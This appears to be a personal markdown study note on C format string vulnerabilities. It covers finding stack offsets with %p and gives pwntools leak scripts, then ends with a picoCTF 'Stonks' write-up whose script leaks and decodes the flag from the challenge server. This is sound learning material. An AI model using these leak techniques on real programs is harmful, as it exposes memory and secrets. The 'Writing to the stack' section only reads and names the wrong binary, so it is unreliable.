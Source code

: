 ## Format String vulnerability

### Resources
> A simple Format String exploit example - bin 0x11 (LiveOverflow)  
> https://www.youtube.com/watch?v=0WvrSfcdq1I  

### Format String
> https://ir0nstone.gitbook.io/notes/types/stack/format-string  
> https://codeforwin.org/2015/05/list-of-all-format-specifiers-in-c-programming.html  

### Indentifying a format string vulnerability

Look for Any printf function that takes your input thats first and only parameter.

Using the %p allows you to enumerate the addresses on the stack.

### Finding the index of the user input of the stack

Using the %p multiple times until you can identify your exact offset of your index.

Example:

```
./vuln

AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p

We can see in the below result that index #6 is the offset of where our A's are.

AAAA 0xf63d4e2e 0xfff359a0 0x804918c 0xfff35a34 0xf7f33470 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520
```

Extracting the exact offset for the index selected

```
./vuln

%6$p

Confirming the offset by reading the user input

AAAA %6$p
```

### Writing to the stack

Retrieving the base address

```
readelf --all auth
0x08048000 base address of vuln
```

```python
from pwn import *

p = process("./vuln")
base_addr = p32(0x08048000)

buf = b"" 
buf += b"%7$p" + base_addr

p.sendline(buf)
p.interactive()
```

### Reading the value at the address

```
readelf --all auth
0x08048000 base address of vuln
```

```python
from pwn import *

p = process("./vuln")
base_addr = p32(0x08048000)

buf = b"" 
buf += b"%7$s" + base_addr

p.sendline(buf)
p.interactive()
```


------------------------------------------------

### picoCTF Stonks (Format String Vuln)

Thanks to @iilegacyyii for helping me learn the automation aspect of the exploitation

### format string vulnerability to leak flag data

I confirmed the vulnerability by locating the weakness in the code by entering `%x` into user input to leak addresses from the stack. A particular set of bytes contained the flag.  

`scanf("%300s", user_buf);`

To confirm this, i was able to compile the source code and replicate the flag by creating a file named api and creating a random string named "this is a test".

```bash
# ./x 
Welcome back to the trading app!
                                                          
What would you like to do?
1) Buy some stonks!
2) View my portfolio
1            
Using patented AI algorithms to buy stonks
Stonks chosen    
What is your API token?
%x                
Buying stonks with token:
566737f0
```

```python
from pwn import *
from Crypto.Util.number import long_to_bytes
# requires pip3 install pycryptodome

#p = process("./x")
p = remote("<picoctfdomain>", <port>)
fuzz = "%x"*30

p.sendline("1")
p.recvuntil("?")
p.sendline(fuzz)
print("===========")
p.recvuntil("token:\n")
leakdata = p.recvuntil("\n").strip("\n")
leakdata = int(leakdata, 16)
leakdata = long_to_bytes(leakdata)

# Manually entered payload after retrieving it.
x = 'ocip{FTC0l_I4_t5m_ll0m_y_y3n2fc10a10'
result = ""
for i in range(0, len(x), 4):
  result += x[i:i+4][::-1]
print(result)

print("===============")
print(leakdata)

p.interactive()
```


